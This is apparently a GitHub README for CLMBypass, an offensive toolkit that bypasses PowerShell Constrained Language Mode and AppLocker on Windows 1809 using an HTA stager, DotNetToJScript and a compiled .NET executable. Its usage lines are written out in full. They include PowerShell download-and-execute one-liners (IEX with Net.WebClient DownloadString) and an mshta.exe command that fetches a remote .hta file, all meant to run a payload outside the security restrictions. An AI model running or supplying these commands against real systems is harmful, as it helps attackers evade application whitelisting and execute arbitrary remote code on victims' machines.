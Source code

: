 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>
### CLMBypass.hta [A][C]
- The WScript.Shell creates a new runspace
- `payload.ps1` is downloaded and executed in FullLanguage mode
- **Usage:** mshta.exe http://localhost/CLMBypass.hta`

### CLMBypass.js [A][C]
- Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
- **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
- when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).

### CLMBypass.exe [C]
- Compiled as PE32 .NET Framework 4.0
- **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`

### Program.cs
- C# source code for CLMBypass.dll, a little outdated for the PE

### payload.ps1
- payload to be run in FullLanguage mode
